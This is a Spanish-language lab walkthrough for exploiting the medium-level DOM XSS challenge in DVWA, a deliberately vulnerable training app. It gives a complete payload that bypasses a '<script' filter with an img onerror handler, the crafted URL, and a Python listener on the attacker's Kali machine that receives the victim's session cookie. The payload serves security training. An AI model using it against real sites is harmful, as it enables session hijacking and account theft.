 # Explotación de Vulnerabilidad XSS (Cross-Site Scripting) - Nivel Medio

## Objetivo

Robar la cookie de un usuario conectado explotando una vulnerabilidad Cross-Site Scripting (XSS) de nivel medio.

## Herramientas Necesarias

* Un entorno web vulnerable (por ejemplo, DVWA - Damn Vulnerable Web Application).
* Kali Linux (o cualquier sistema con Python instalado).

## Pasos para la Explotación

1.  **Iniciar un servidor web temporal en Kali Linux:**
    Abre tu terminal en Kali Linux y ejecuta el siguiente comando para iniciar un servidor web simple en el puerto 9999. Este servidor escuchará las peticiones que envíe la página vulnerable.

    ```bash
    sudo python3 -m http.server 9999
    ```

2.  **Analizar las protecciones de nivel Medio:**
    A diferencia del nivel Bajo, el nivel Medio bloquea la cadena `<script`. Esto significa que los payloads directos que utilizaban la etiqueta `<script>` ya no funcionarán.

3.  **Construir un payload XSS sin la etiqueta `<script>`:**
    Para evitar esta restricción, utilizaremos la etiqueta `<img>` con un evento `onerror` para ejecutar código JavaScript.

4.  **Payload final para robar la cookie:**
    Dado que la entrada se inyecta en la primera opción de un desplegable (`<select>`), necesitamos "romper" la estructura HTML del dropdown para que nuestra etiqueta `<img>` se renderice correctamente y el código JavaScript se ejecute. El siguiente payload logra esto:

    ```html
    </option></select><img id='pic' src=x onerror="var i = document.getElementById('pic'); i.setAttribute('src','http://[tu_IP_de_Kali]:9999/' + document.cookie); i.parentNode.removeChild(i); return false;")>
    ```

    **Desglose del payload:**

    * `</option></select>`: Cierra la etiqueta `<option>` actual y la etiqueta `<select>` del desplegable, sacándonos de su estructura.
    * `<img id='pic'`: Crea una etiqueta `<img>` con el ID `pic`.
    * `src=x`: Establece un valor inválido para el atributo `src`. Cualquier valor no válido para una imagen provocará un error.
    * `onerror="..."`: Define el código JavaScript que se ejecutará cuando ocurra un error al cargar la imagen (debido al `src` inválido).
        * `var i = document.getElementById('pic');`: Obtiene la referencia al elemento `<img>` por su ID.
        * `i.setAttribute('src','http://[tu_IP_de_Kali]:9999/' + document.cookie);`: Establece el atributo `src` de la imagen a una URL en tu servidor web temporal (reemplaza `[tu_IP_de_Kali]` con la IP de tu máquina Kali) seguido de la cookie del usuario (`document.cookie`). Esto hará que el navegador de la víctima intente cargar una "imagen" desde tu servidor, enviando la cookie en la petición GET.
        * `i.parentNode.removeChild(i);`: Elimina la etiqueta `<img>` del DOM para evitar que el evento `onerror` se siga disparando repetidamente, lo que podría generar múltiples peticiones a tu servidor.
        * `return false;`: Evita que el error de la imagen se propague.
    * `>`: Cierra la etiqueta `<img>`.

5.  **Construir la URL maliciosa:**
    Combina la URL de la página vulnerable con el payload inyectado en el parámetro `default`:

    ```
    http://localhost/DVWA/vulnerabilities/xss_d/?default=English</option></select><img id='pic' src=x onerror="var i = document.getElementById('pic'); i.setAttribute('src','http://[tu_IP_de_Kali]:9999/' + document.cookie); i.parentNode.removeChild(i); return false;">
    ```

    **¡Importante!** Reemplaza `[tu_IP_de_Kali]` con la dirección IP de tu máquina Kali.

6.  **Acceder a la URL maliciosa:**
    Pega esta URL en el navegador de la víctima (o en tu propio navegador si estás probando la vulnerabilidad).

![Imagen vulnerabilidad XSS Dom 1](../../assets/XSSDomMedium01.png)

7.  **Verificar el servidor web temporal:**
    Si la explotación es exitosa, tu servidor web temporal en Kali Linux debería recibir una petición GET. La ruta de esta petición contendrá la cookie del usuario conectado. Deberías ver algo similar a esto en los logs de tu servidor:

    ```
    192.168.x.x - - [DD/Mon/YYYY HH:MM:SS] "GET /PHPSESSID=alguna_sesion;security=medium HTTP/1.1" 404 -
    ```

    La parte después de `/` es la cookie del usuario.

## ¡Felicidades!

Has explotado con éxito la vulnerabilidad XSS de nivel Medio para robar la cookie de un usuario utilizando un payload que evita la restricción de la etiqueta `<script>`.
